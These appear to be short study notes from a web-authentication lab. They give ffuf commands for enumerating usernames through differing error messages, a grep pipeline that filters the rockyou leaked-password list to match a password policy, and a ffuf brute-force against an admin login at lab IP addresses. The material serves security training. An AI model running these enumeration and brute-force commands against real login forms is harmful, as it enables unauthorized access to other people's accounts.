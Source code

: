 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: a  
pplication/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

